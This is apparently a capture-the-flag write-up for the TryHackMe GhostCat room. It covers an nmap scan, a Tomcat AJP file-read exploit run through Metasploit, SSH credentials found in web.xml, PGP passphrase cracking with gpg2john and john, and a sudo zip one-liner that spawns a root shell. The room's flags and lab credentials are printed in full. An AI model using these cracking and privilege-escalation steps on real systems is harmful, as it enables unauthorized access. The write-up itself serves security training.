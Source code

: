 ```yaml
---
sticker: emoji//1f47b
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE    |
| :--- | :--------- |
| 22   | ssh        |
| 53   | tcpwrapped |
| 8009 | ajp13      |
| 8080 | http       |

```
PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw
53/tcp   open  tcpwrapped syn-ack
8009/tcp open  ajp13      syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       syn-ack Apache Tomcat 9.0.30
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



# RECONNAISSANCE
---

From the scan, we can check that we're dealing with `apache tomcat 9.0.30`, we can look up for vulnerabilities regarding this version:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250331134324.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250331134331.png)


We can look up this in `metasploit`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250331134514.png)

Let's test if it works:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250331134552.png)

It works, let's proceed with exploitation.


# EXPLOITATION
---

Since we were able to read the `/WEB-INF/web.xml` file, we noticed it came with some credentials, we can access `ssh` with them:


```
skyfuck:8730281lkjlkjdqlksalks
```



![](CYBERSECURITY/IMAGES/Pasted%20image%2020250331135832.png)

Let's begin privesc.


# PRIVILEGE ESCALATION
---


If we check `skyfuck` home, we can find this:

```
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

We got some encrypted credentials, but to our luck we also got the `.asc` private file to decrypt, let's do it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250331140554.png)

If we try importing it, we notice we need a passphrase, let's use `gpg2john` to get it:

```
gpg2john tryhackme.asc > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

We get this:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "gpg", but the string is also recognized as "gpg-opencl"
Use the "--format=gpg-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2025-03-31 19:06) 16.66g/s 17866p/s 17866c/s 17866C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Passphrase is `alexandru`, let's check the credentials now:

```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```

We get this:

```
gpg --decrypt credential.pgp
gpg: encrypted with elg1024 key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We got the credentials for another user: `merlin`, let's go into ssh:

```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We can now read `user.txt`:

```
merlin@ubuntu:~$ cat user.txt
THM{GhostCat_1s_so_cr4sy}
```


We can check our privileges:

```
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

We got root permissions on `/usr/bin/zip`, let's check it on `gtfobins`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250331141148.png)

We can do the following in order to get an interactive shell as root:

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh -c "sh <&2 1>&2"'
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250331141357.png)

We can now read `root.txt`:

```
# cat /root/root.txt
THM{Z1P_1S_FAKE}
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250331141444.png)

